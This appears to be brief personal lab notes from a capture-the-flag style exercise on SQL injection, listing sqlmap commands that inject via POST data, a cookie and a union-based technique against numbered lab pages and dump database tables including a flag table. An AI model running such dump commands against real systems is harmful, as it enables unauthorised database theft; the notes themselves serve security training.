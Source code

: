 
BURP za header visualization
### post REQUEST

```bash
sqlmap -u http://94.237.62.198:55804/case2.php --data "<param>=1" --batch --dump
```

### cookie manipulation

``` bash 
sqlmap -u http://94.237.62.198:55804/case3.php --cookie="<param>=1*" --batch --dump
```

#### specify union based

```bash 
 sqlmap -u http://94.237.62.198:55804/case7.php?id=1 --technique=U --union-cols=5 --risk=3 --dump --batch -T flag7

```

